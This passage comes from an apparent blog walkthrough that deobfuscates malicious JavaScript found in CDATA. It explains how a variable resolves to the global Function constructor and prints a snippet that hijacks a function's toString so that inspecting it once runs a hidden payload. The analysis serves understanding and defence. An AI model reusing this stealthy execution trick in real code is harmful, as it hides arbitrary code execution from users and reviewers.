 Okay B holds the value of `Function` and lets paste the other parts

![nodejs](posts/Obfuscated-JS-in-CDATA/3.png)

We can see that this part of the code is essentially returning the global Function constructor, which behaves just like eval. It allows execution of arbitrary code as a string — and yes, that’s as dangerous as it sounds.

Out of curiosity, I tried running the same snippet in the browser console to see what it would return — I was expecting it to give me access to the window object or something similar. But... I hit a wall. The Content Security Policy (CSP) blocked it.

That makes sense though — modern sites often use CSP to block inline scripts and prevent exactly this kind of attack.

So what does this tell us?

The variable S is basically functioning as an eval alternative. It gives the attacker the power to dynamically run code in the global context — completely bypassing normal scoping or restrictions.


Moving further

```js
 const I = new WeakMap();
    
    const c = Function.prototype.toString;
    
    const W = function() {};
    
    Object.defineProperty(W, 'toString', {
        value: function() {
            if (!I.has(this)) {
                I.set(this, true);
                Promise.resolve().then(() => {
                    (new S(Q))();
                });
                Object.defineProperty(this, 'toString', {
                    value: c,
                    configurable: true,
                    writable: true
                });
            }
            return c.call(this);
        },
        configurable: true,
```